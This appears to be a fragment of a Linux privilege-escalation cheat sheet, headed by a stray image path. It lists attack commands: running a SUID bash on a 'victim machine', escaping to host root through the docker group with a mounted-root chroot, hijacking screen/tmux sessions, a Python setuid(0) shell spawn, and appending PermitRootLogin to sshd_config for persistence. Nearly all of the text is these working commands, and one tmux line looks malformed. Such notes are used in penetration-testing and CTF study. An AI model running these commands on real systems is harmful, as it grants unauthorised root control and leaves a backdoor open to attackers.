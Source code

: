 ```
# On victim machine, run bash
/shared/bash -p
```	

#### Docker

```
id  # docker group
find / -name docker.sock 2>/dev/null    # /run/docker.sock
docker images   # repository bash
docker run -it -v /:/host/ bash chroot /host/ bash
```

#### Other

```
screen -r session_name/
tmux attach-s -t session_name
```

#### EUID to UID root

```
python -c 'import pty; import os; os.setuid(0); pty.spawn("/bin/bash")'
```

#### Allow root password ssh

```
echo PermitRootLogin yes >> /etc/ssh/sshd_config
sudo service ssh restart
```